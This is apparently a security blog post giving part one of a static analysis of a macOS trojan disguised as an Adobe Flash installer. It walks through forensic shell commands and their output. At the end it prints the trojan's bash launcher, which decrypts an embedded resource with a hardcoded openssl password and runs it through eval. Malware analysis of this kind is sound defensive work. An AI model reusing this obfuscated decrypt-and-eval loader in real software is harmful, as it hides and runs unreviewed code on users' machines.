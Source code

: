 ```yaml
---
layout: post
title: Adload Sample, Part 1: Static Analysis
---
```

Happy New Year! Excuse my absense, while I have been away taking studying for GCFA and enjoying the holidays. Now that's all over I'm back to show you some static analysis of a macOS trojan I found today. Hope you enjoy and please send any questions, or comments to ragingroosterrem@gmail.com. Thanks!

### Tools Used:
- macOS High Sierra virtualized with Virtualbox
- Bash Commands: bash, cat, cd, clamscan, codesign, file, find, hdiutil, ls, md5, openssl, plutil, shasum
- VirusTotal

### The Story, YAFFD
I was googling a security tool called moloch + threat hunting and clicked on a link to what I thought was a security blog containing some juciy information. It was the third link, on the first page of results mind you! Instead of being served up some info to make my day better, I was redirected to Yet Another Fake Flash Downloader (YAFFD). Okay, I'd preffer to do some malware analysis anyway.

<img src="{{ site.baseurl }}/images/YAFFD.png">

### Analysis

##### After I clicked the pretty button and downloaded the .dmg, I fired up my bash shell and went to my downloads folder to see what gift I was given.
```
$ cd ~/Downloads

$ ls
AdobeFlashPlayerInstaller.dmg

$ file AdobeFlashPlayerInstaller.dmg 
AdobeFlashPlayerInstaller.dmg: zlib compressed data

$ md5 AdobeFlashPlayerInstaller.dmg 
MD5 (AdobeFlashPlayerInstaller.dmg) = 8c5a97b8234af7f41e03b4421904a8ff

$ shasum AdobeFlashPlayerInstaller.dmg 
b972667995d2ca1d205c3be4d57fc80814834970  AdobeFlashPlayerInstaller.dmg

$ codesign -dvvv AdobeFlashPlayerInstaller.dmg 
AdobeFlashPlayerInstaller.dmg: code object is not signed at all
```
###### Hey! Wouldn't Adobe sign this?

##### Let's tear into this .dmg like a candy bar.
```
$ hdiutil attach AdobeFlashPlayerInstaller.dmg 
Checksumming Protective Master Boot Record (MBR : 0)…
Protective Master Boot Record (MBR :: verified   CRC32 $7510EE46
Checksumming GPT Header (Primary GPT Header : 1)…
 GPT Header (Primary GPT Header : 1): verified   CRC32 $366ED316
Checksumming GPT Partition Data (Primary GPT Table : 2)…
GPT Partition Data (Primary GPT Tabl: verified   CRC32 $70831B84
Checksumming  (Apple_Free : 3)…
                    (Apple_Free : 3): verified   CRC32 $00000000
Checksumming disk image (Apple_HFS : 4)…
..............................................................................
          disk image (Apple_HFS : 4): verified   CRC32 $B3A8FFCC
Checksumming  (Apple_Free : 5)…
                    (Apple_Free : 5): verified   CRC32 $00000000
Checksumming GPT Partition Data (Backup GPT Table : 6)…
GPT Partition Data (Backup GPT Table: verified   CRC32 $70831B84
Checksumming GPT Header (Backup GPT Header : 7)…
  GPT Header (Backup GPT Header : 7): verified   CRC32 $00709B9F
verified   CRC32 $7647ACE4
/dev/disk1          	GUID_partition_scheme          	
/dev/disk1s1        	Apple_HFS                      	/Volumes/Player

$ cd /Volumes/Player/

$ find .
.
./.5692438210.png
./.DS_Store
./Player_210.app
./Player_210.app/Contents
./Player_210.app/Contents/_CodeSignature
./Player_210.app/Contents/_CodeSignature/CodeDirectory
./Player_210.app/Contents/_CodeSignature/CodeRequirements
./Player_210.app/Contents/_CodeSignature/CodeRequirements-1
./Player_210.app/Contents/_CodeSignature/CodeResources
./Player_210.app/Contents/_CodeSignature/CodeSignature
./Player_210.app/Contents/Info.plist
./Player_210.app/Contents/MacOS
./Player_210.app/Contents/MacOS/Xl5NyWPPpAg.cD3QOlw2RV1GoEhnKg
./Player_210.app/Contents/Resources
./Player_210.app/Contents/Resources/210
./Player_210.app/Contents/Resources/app5692438210.icns
./Player_210.app/Contents/Resources/enc
```
###### Looks similar to most other .dmg directory structures.

##### Let's take a look at the .dmg's Property List (plist) which stores some valuable app data.
```
$ cd /Volumes/Player/Player_210.app/

$ plutil -p Info.plist 
{
  "CFBundleExecutable" => "Xl5NyWPPpAg.cD3QOlw2RV1GoEhnKg"
  "CFBundleIconFile" => "app5692438210.icns"
  "CFBundleIdentifier" => "com.Xl5NyWPPpAg.cD3QOlw2RV1GoEhnKg"
  "CFBundleInfoDictionaryVersion" => "6.0"
  "CFBundleName" => "PlayerInstaller"
  "CFBundlePackageType" => "APPL"
  "CFBundleShortVersionString" => "1.0"
  "CFBundleSupportedPlatforms" => [
    0 => "MacOSX"
  ]
  "CFBundleVersion" => "5692438210"
  "LSMinimumSystemVersion" => "10.9"
  "NSHumanReadableCopyright" => "Copyright © 2017 All rights reserved."
  "NSPrincipalClass" => "NSApplication"
}
```
######Looks like "Xl5NyWPPpAg.cD3QOlw2RV1GoEhnKg" is the binary executed by the .dmg.

##### Let's inspect the binary.
```
$ cd MacOS/

$ ls
Xl5NyWPPpAg.cD3QOlw2RV1GoEhnKg

$ file Xl5NyWPPpAg.cD3QOlw2RV1GoEhnKg 
Xl5NyWPPpAg.cD3QOlw2RV1GoEhnKg: Bourne-Again shell script text executable, ASCII text
```
###### Hey! That's a shell script, not a Macho. But, that's not too extraordinary. 

##### Let's see what it does.
```
$ cat Xl5NyWPPpAg.cD3QOlw2RV1GoEhnKg 
#!/bin/bash
cd "$(dirname "$BASH_SOURCE")"
fileDir="$(dirname "$(pwd -P)")"
eval "$(openssl enc -base64 -d -aes-256-cbc -nosalt -pass pass:5692438210 <"$fileDir"/Resources/enc)"
```
